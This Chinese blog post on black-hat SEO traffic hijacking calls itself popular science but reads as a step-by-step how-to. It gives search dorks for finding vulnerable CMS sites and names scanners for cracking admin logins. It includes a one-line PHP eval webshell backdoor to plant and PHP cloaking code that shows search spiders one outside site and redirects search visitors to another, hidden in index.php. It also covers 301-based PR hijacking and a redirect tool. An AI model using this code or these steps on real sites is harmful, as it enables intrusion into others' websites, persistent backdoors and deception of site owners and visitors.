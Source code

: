 ```yaml
---
layout: post
title: 如何用黑帽SEO把自己变成一个货真价实的流量贩子。。。
categories:
- 今日头条
tags:
---
```

				![](http://p3.pstatp.com/large/7fc00011416749d14ab)

瓜瓜只是科普

并不想教坏你们。。。

![](http://p1.pstatp.com/large/7da000599ce75262a9f)

看到标题的时候，不知道你们什么感觉，是不是觉得麻瓜君一直在带坏你们，把你们引入黑暗的深渊呢？

我们的目的只是为了科普，探索我们不知道的东西而已，当然还是进入科普环节。。。

在互联网的世界里，其实流量劫持并不是什么件新鲜事。所谓流量劫持，无非就是指通过一定技术手段，控制你们的上网行为，让你们打开不想打开的网页，看到不想看的广告，当你们打开了之后，你们的行为就会给劫持者带去源源不断的收入。

什么意思呢？很简单。。。

![](http://p1.pstatp.com/large/7da000599cd047bf0d7)

明明打开的是www.magua12138.com网站，莫名其妙却被跳转至www.fzeme.com的网站；明明想下的是A软件，下载安装后却发现是B软件；还有打开一个App，弹出让人心乱如麻的广告，你们以为电脑手机中毒了？

我就呵呵了，错！或许你们真的错怪了病毒，因为这个时候你们的互联网流量很可能被劫持了。

![](http://p3.pstatp.com/large/7fc0001141595d5443d)

![](http://p1.pstatp.com/large/7fa00011400f8359007)

尽管这种现象很早就存在，也有很多人杜绝或者厌恶，但在“用户就是小绵羊”的环境下，流量劫持始终“野火烧不尽，春风吹又生”。

到底谁在劫持流量？

流量劫持背后的“恶魔之手”究竟什么样？

根据《IT时报》记者调查发现，在互联网世界，流量劫持背后有一个庞大的灰色产业链，仅DNS劫持一种方式，每天被恶意劫持的流量至少有上千万个IP。

![](http://p3.pstatp.com/large/7f9000113878244c61c)

今天我们话题就围绕着“劫持”两个字，随便扯一扯。。。

劫持其实有很多，比如说什么，流量劫持、快照劫持、PR劫持等，其实前几个步骤都一样，就是最后的脚本不同而已。。。

我们按顺序来，因为是劫持别人的站，所以我们要做的第一步肯定是获取劫持站的后台权限，并留下后门，以便日后管理，这个过程就是常说的拿站（webshell）。

从难易度来说，最容易的就是企业站了，因为大多数的企业站都是采用开源系统，很多系统因本身的问题存在诸多安全隐患，比如虐心的dede（我们常用的织梦CMS）。

有些系统的漏洞已经曝光出来，找到这些漏洞的特征和这个漏洞对应的系统，然后去各种渠道搜集使用这个系统的网站，遍历扫描每个站，如果存在这个漏洞，就暴力破解后台账户名和密码。

收集目标网站，最简单的方法是拿漏洞的特征做关键词到搜索引擎去搜，然后把搜索结果页上的网站全部抓下来。熟悉网站的瓜友肯定对下面的关键词非常熟悉了比如说：

Powered by DEDECMS

inurl:HomeMarket.asp

有限公司--Powered by ASPCMS V2.0

用户登陆 inurl:admin/login.asp。。。还有XXX技术支持等等

然后拿抓下来以后就可以对这些网站去进行漏洞了，你们肯定一脸懵逼，是不是想问怎么扫描？

用很多现成的拿站工具可以完成批量的扫描和破解，然而每个工具不能能覆盖所有漏洞，所以需要交叉使用：

御剑后台扫描

wwwscan GUI版

web扫描工具-WVS

椰树WEB漏洞扫描器

Pker多线程后台极速扫描器

Web应用安全漏洞检测工具

Acunetix Web Vulnerability Scanner 8

![](http://p3.pstatp.com/large/7fb0001140af4dd61cd)

如果过程顺利的话，就可以拿到一些网站的后台账户跟密码了，然后就可以正常登陆了。

这个时候你们就需要留一个后门，在网站后台新建一个php文件（用DW），写入一句话木马：<?php eval($_POST['ee']); ?>，通过菜刀（一个非常好用而又强大的webshell管理软件，如“中国菜刀”）添加shell，无异常的话就已经顺利的拿下一个站了。、

接下来在后台写入劫持代码，比如要劫持首页，在后台找一个很隐蔽的地方新建一个php文件，写入类似的代码：

<?php

$httpuser=strtolower($_SERVER['HTTP_USER_AGENT']);

if(strstr($httpuser,'Baiduspider') or strstr($httpuser,'Googlebot') or strstr($httpuser,'Sogou web spider')){

 $url=‘http://www.magua121381.com';$a=file_get_contents($url);echo $a;exit;

}

$httpuser=strtolower($_SERVER['HTTP_REFERER']);

if(strstr($httpuser,'baidu') or strstr($httpuser,'google') or strstr($httpuser,'sogou')){

 $url=‘http://www.magua121382.com';header("Location:$url");exit;

}

?>

我们怎么去理解这句话呢？意思其实非常简单，大致可以这么理解，若蜘蛛来访，则抓取 www.magua121381.com的内容；若来路为搜索引擎，则返回www.magua121382.com的内容，然后上传到网站的根目录。。。

之后在首页文件index.php中调用刚才新建的文件：

<?php

include(“{新建文件的路径}")

?>

当然，www.magua121381.com 和 www.magua121382.com 可以设为同一个网址。（如果你们真这么设置，你们做那么多的目的是什么= =）

![](http://p1.pstatp.com/large/7fb0001140b94613beb)

![](http://p3.pstatp.com/large/7da000599cf2569751c)

这就是快照劫持的简单步骤了，被劫持的站，对蜘蛛访问返回www.magua121381.com的内容，对从搜索引擎搜索过来的用户返回www.magua121382.com的内容，你如果输入网站的域名（网站url），则是本来的页面。一般负责网站管理的人，都只输入url访问网站，index.php也很少关注，所以好长时间才发现，甚至发现不了自己的网站被劫持。

有的时候在百度中搜索很多违禁的词语，会出现一堆政府的网站，但是点进去是却看到各种违禁内容（百度站长平台还专门开了一个“bad case”的帖子专门收集类似的案例），直接输入网址访问，却是正常的内容，若果换一个搜索词从百度点进去，还是正常的内容。这就是在刚才所说的劫持代码的基础上完成的，根据referer词来判断是否返回指定页面，现在百度已经取消referer参数了，所以这东西也就随之失效了，我们略过。。。

进入下一个环节，PR劫持，就是对蜘蛛301到指定的网站，（301就不特别解释了，301重定向的意思，自己上网查一下）从而提升权重。有些新站，做了不到1个月，用站长工具一查，哎哟我去，权重值都在4以上，但网站本身并没多少内容和收录，如果有看到这样的情况，基本是用了PR劫持了。。。

简单来说，PR值的计算是有周期的，假如A网站的PR值是4，B网站是0，我们把A网站劫持到B网站，在PR值计算过后，在取消劫持，那么B网站就拥有了4的PR值，至少能保持到下次计算的时候。。。

最后说一个快照劫持，因为最近看见的比较频繁且很少人知道，利用JS脚本来霸屏搜索引擎。。。

![](http://p3.pstatp.com/large/7f90001138847d59a27)

怎么做到的？脚本怎么写？

![](http://p3.pstatp.com/large/7fd000112d31c026675)

这样改变世界的做法你们真的认为很容易就能实现吗？

事实上的确很容易。。。用一些软件就可以了。

![](http://p3.pstatp.com/large/7da000599d07a346959)

我们来看看这个软件的搜索跳转功能，支持各大搜索引擎，使从任意方式搜索出点击到你网站后，搜索网站页面自动跳转到指定的网站，自定义网站功能支持一级，多级，长尾域名格式。优化来路，默认百度，防止百度蜘蛛被k。

这软件还有一些奇特的功能，看图不说话。。。

![](http://p8.pstatp.com/large/7da000599d1a162f320)

![](http://p3.pstatp.com/large/7f90001138937b4fddb)

![](http://p1.pstatp.com/large/7fb0001140cce151cb3)

![](http://p3.pstatp.com/large/7fb0001140d34d7cfff)

手机也是可以的。。。

![](http://p3.pstatp.com/large/7fa000114010829030a)

![](http://p3.pstatp.com/large/7f90001138a43f76a5e)

这个软件还真是丧心病狂阿。。。

建议很多玩搜索方面的瓜友如果是因为好奇，可以跟着麻瓜君的思路探索一下，但是如果是为了自己的公司，或者是自己所在的企业长远的考虑，建议不要运用以上任何一种手法，到时候别说我没提醒你们哦。

![](http://p1.pstatp.com/large/7da000599d26beb12a1)

今天我们仅仅科普下劫持原理，还有很多的细节没有展开说，比如批量管理webshell，又比如说如何隐蔽踪迹。

如果藏的不是非常隐蔽，基本都会被发现，只是时间长短问题，且作上去的排名都活不了太长时间，而且会带来你意想不到的惩罚，说白了，能获得多大效果，取决于能铺多少量，是个耗费精力、时间的力气活，所以还是专心研究白帽SEO吧。。。

▼

若要转载麻瓜君的文章

记得请署名噢...

投稿邮箱：

ceo@magua12138.com

微信公众号：magua12138

更多内容请登录：

www.magua12138.com